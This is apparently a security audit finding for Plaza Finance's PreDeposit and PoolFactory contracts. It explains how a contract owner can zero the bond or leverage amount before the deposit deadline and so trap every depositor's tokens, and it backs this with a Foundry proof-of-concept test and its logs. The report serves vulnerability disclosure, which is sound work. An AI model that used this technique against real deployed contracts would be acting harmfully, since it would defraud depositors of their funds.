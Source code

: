 Early Chartreuse Copperhead

High

# Attacker will trap all Users Funds in the PreDeposit Contract in a Griefing Attack

### Summary

Attackers can create an unlimited number of `PreDeposit` contracts that act as "good-investments" and entice users to transfer their tokens to the contract. When the deposit period is about to end, the attacker will set the `bondAmount`, or `leverageAmount` as `0` and cause everyone to lose their investments. Users will be unable to withdraw their tokens, nor will the pool be created (because the `createPool` function will revert everytime). Hence, they gave their tokens in exchange for nothing. 

Attackers will be able to create an unlimited number of such honey pot contracts because owners do not need a minimum investment in their own contract. Alternatively, attackers can also invest a small amount of tokens to give confidence to investors, and withdraw them as they set their `bondAmount` or `leverageAmount` as `0`. 

It is almost guaranteed that rival protocol will do this to impact the credibility of this protocol. 

### Root Cause

If a user wants to create a `Pool`, they will first create a `PreDeposit` contract that accepts "investments" in the form of their chosen `reserveToken`. Then, after a set period they will call the `createPool` function to create a new `Pool` with the `reserveToken` they received. 

A major condition in the [`PoolFactory::createPool`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PoolFactory.sol#L124) function is that the `reserveAmount`, `bondAmount`, and `leverageAmount` can not be `0`. 

```solidity
function createPool(
    ...
    if (bondAmount == 0) {
      revert ZeroDebtAmount();
    }

    if (leverageAmount == 0) {
      revert ZeroLeverageAmount();
    }
```

On the other hand, the [`PreDeposit::setBondAndLeverageAmount`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PreDeposit.sol#L204) allows the `owner` of the `PreDeposit` contract to change the `bondAmount` and `leverageAmount` to any value they want. 

```solidity
function setBondAndLeverageAmount(uint256 _bondAmount, uint256 _leverageAmount) external onlyOwner checkDepositNotEnded {
  if (poolCreated) revert PoolAlreadyCreated();

  bondAmount = _bondAmount;
  leverageAmount = _leverageAmount;
}
```

This means that an attacker can seek a lot of investments and change the `bondAmount` or `leverageAmount` into `0`, and entrap all users and their tokens resulting in a 100% loss of tokens for users. 

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. Attacker creates a `PreDeposit` contract that will accept `reserveToken` of their choice (e.g. wETH). 
2. Attacker sets the `bondAmount` and `leverageAmount` just as a normal pool would to help it appear normal. 
3. Just before the `depositEndTime`, the attacker sets the `bondAmount` or `leverageAmount` as `0` (either one, or both). This fully entraps the users and their tokens. 
4. Users will try to use the `withdraw` function, but it uses the `checkDepositNotEnded` modifier which will not allow the withdrawal of the tokens. 
5. Anyone can call the `createPool` function, but it will revert because the `bondAmount` or the `leverageAmount` is `0`. 

This fully traps all the tokens of the users in the PreDeposit contract. The fact that the owner does not need to personally invest any token into the contract to pull off this attack further increases the possibility of this attack. 

### Impact

The users will lose `100%` of their investments. 

### PoC

Add the following test script in the `PreDeposit.t.sol` file: 

```solidity
function test_trapUserTokens() public { 
    deployFakePool();

    // Setup initial deposit
    vm.startPrank(user1);
    reserveToken.approve(address(preDeposit), DEPOSIT_AMOUNT);
    preDeposit.deposit(DEPOSIT_AMOUNT);
    console.log("user1 deposited %e", DEPOSIT_AMOUNT); 
    vm.stopPrank();

    // Create pool
    vm.startPrank(governance);
    preDeposit.setBondAndLeverageAmount(0, 0);
    console.log("bond and leverage set to 0 right as the deposit period is about to end"); 
    vm.warp(block.timestamp + 8 days); // After deposit period

    poolFactory.grantRole(poolFactory.POOL_ROLE(), address(preDeposit));
    vm.expectRevert(); 
    preDeposit.createPool();
    console.log("pool can not be created"); 
    vm.stopPrank();

    // Claim tokens
    vm.startPrank(user1);
    uint256 balanceBefore = preDeposit.balances(user1);
    vm.expectRevert(); 
    preDeposit.withdraw(DEPOSIT_AMOUNT); 
    console.log("user1 is unable to withdraw their tokens"); 
    
    console.log("user1 balance still in preDeposit contract %e", balanceBefore); 
    
    vm.stopPrank();
  }
```

When you run this script using `forge test --mt test_trapUserTokens -vvv` you get the following logs: 
```bash
Logs:
  user1 deposited 1e19
  bond and leverage set to 0 right as the deposit period is about to end
  pool can not be created
  user1 is unable to withdraw their tokens
  user1 balance still in preDeposit contract 1e19
```

This test script shows how users after being trapped will not be able to withdraw their investments using the `withdraw` function, and that the `PreDeposit` contract holds all the user's tokens without a way to reach it. 

### Mitigation

_No response_